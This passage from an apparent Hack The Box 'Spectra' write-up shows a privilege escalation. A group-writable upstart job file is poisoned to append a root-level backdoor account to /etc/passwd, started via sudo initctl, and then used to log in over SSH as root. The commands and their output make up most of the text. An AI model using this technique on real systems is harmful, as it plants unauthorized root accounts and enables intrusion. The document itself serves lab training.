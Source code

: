 `initctl` is a tool used to **start and stop jobs**. Available jobs are usually located under `/etc/init/`. Searching for writable .conf file it turned out that **multiple test file** was owned by root but **allowed write permission** to the member of the `developers` group:

```bash
katie@spectra /etc/init $ find /etc/init -gid 20158
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
```

The misconfiguration allowed to **poison one of the test.conf file** and inject a payload which **added a new root user** once the job was started:

```bash
katie@spectra /etc/init $ nano test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
	echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
end script
^X

katie@spectra /etc/init $ sudo /sbin/initctl stop test
initctl: Unknown instance:
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 12820
katie@spectra /etc/init $ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash
```

The malicious `root2` user was finally used to login and obtain high privileges:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ ssh root2@10.10.10.229                                                                                             
Password: evil
spectra ~ # whoami && id && cat /root/root.txt && ifconfig
root
uid=0(root) gid=0(root) groups=0(root)
d44519713b889d5e1f9e536d0c6df2fc
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.229  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:5feb  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:5feb  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::e082:c752:1943:1f86  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:5f:eb  txqueuelen 1000  (Ethernet)
        RX packets 18984  bytes 2394803 (2.2 MiB)
        RX errors 0  dropped 131  overruns 0  frame 0
        TX packets 27122  bytes 15426070 (14.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
```
